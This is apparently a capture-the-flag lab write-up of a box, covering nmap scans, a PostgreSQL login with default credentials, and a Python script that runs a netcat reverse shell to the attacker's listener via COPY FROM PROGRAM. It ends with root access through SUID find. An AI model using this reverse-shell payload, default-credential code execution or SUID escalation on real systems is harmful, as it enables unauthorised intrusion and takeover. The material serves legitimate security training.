




# Network Enumeration

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/fail]
└─$ sudo nmap --top-ports=50 -Pn 192.168.201.47            
[sudo] password for aaron: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-10 09:38 +0330
Nmap scan report for 192.168.201.47
Host is up (0.24s latency).
Not shown: 45 filtered tcp ports (no-response)
PORT    STATE  SERVICE
21/tcp  open   ftp
22/tcp  open   ssh
80/tcp  open   http
139/tcp closed netbios-ssn
445/tcp closed microsoft-ds


┌──(aaron㉿aacai)-[~/Desktop/pg/Nibbles/nmapAutomator]
└─$ ./nmapAutomator.sh -H 192.168.201.47 -t full

Running a full scan on 192.168.201.47

Host is likely running Unknown OS!

---------------------Starting Full Scan------------------------                                                                                       
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
5437/tcp open  pmip6-data

Making a script scan on all ports
                                                                                                                                                                                                                                

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:62:1f:f5:22:de:29:d4:24:96:a7:66:c3:64:b7:10 (RSA)
|   256 c9:15:ff:cd:f3:97:ec:39:13:16:48:38:c5:58:d7:5f (ECDSA)
|_  256 90:7c:a3:44:73:b4:b4:4c:e3:9c:71:d1:87:ba:ca:7b (ED25519)
80/tcp   open  http       Apache httpd 2.4.38 ((Debian))
|_http-title: Enter a title, displayed at the top of the window.
|_http-server-header: Apache/2.4.38 (Debian)
5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.9
| ssl-cert: Subject: commonName=debian
| Subject Alternative Name: DNS:debian
| Not valid before: 2020-04-27T15:41:47
|_Not valid after:  2030-04-25T15:41:47
|_ssl-date: TLS randomness does not represent time
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

Use the `nmapAutomator` we can know 5437 is a `postgresql`.

Now try the default username and password to login `postgresql`.



Cool it's work.

Then check the user permission.



We are a super user, also have create role, replication, Bypass RLS permission. So right now need to get rev shell from `pgsql`.

Use the rev script from [PostgreSQL RCE](https://github.com/squid22/PostgreSQL_RCE), change the RHOST

```python
#!/usr/bin/env python3
import psycopg2


RHOST = '192.168.201.47'
RPORT = 5437
LHOST = '192.168.45.204'
LPORT = 80
USER = 'postgres'
PASSWD = 'postgres'

with psycopg2.connect(host=RHOST, port=RPORT, user=USER, password=PASSWD) as conn:
    try:
        cur = conn.cursor()
        print("[!] Connected to the PostgreSQL database")
        rev_shell = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {LHOST} {LPORT} >/tmp/f"
        print(f"[*] Executing the payload. Please check if you got a reverse shell!\n")
        cur.execute('DROP TABLE IF EXISTS cmd_exec')
        cur.execute('CREATE TABLE cmd_exec(cmd_output text)')
        cur.execute('COPY cmd_exec FROM PROGRAM \'' + rev_shell  + '\'')
        cur.execute('SELEC * from cmd_exec')
        v = cur.fetchone()
        #print(v)
        cur.close()

    except:
        print(f"[!] Something went wrong")

```

Then running.



Get rev shell.

# PE

## Information Collection

```bash
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                               
strings Not Found                                                                                                                              
strace Not Found                                                                                                                               
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device                                                                      
-rwsr-xr-x 1 root root 427K Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 50K Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 53K Jul 27  2018 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 63K Jul 27  2018 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                                                                                        
-rwsr-xr-x 1 root root 83K Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 35K Jan  7  2019 /usr/bin/fusermount
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 63K Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 51K Jan 10  2019 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 309K Feb 16  2019 /usr/bin/find
-rwsr-xr-x 1 root root 154K Feb  2  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 35K Jan 10  2019 /usr/bin/umount  --->  BSD/Linux(08-1996)

```



The find was highlighted with linpeas, which means we can use find to PE. [GTFobins](https://gtfobins.github.io/gtfobins/find/)

```bash
$ /usr/bin/find . -exec /bin/sh -p \; -quit
id
uid=106(postgres) gid=113(postgres) euid=0(root) groups=113(postgres),112(ssl-cert)
whoami
root
```

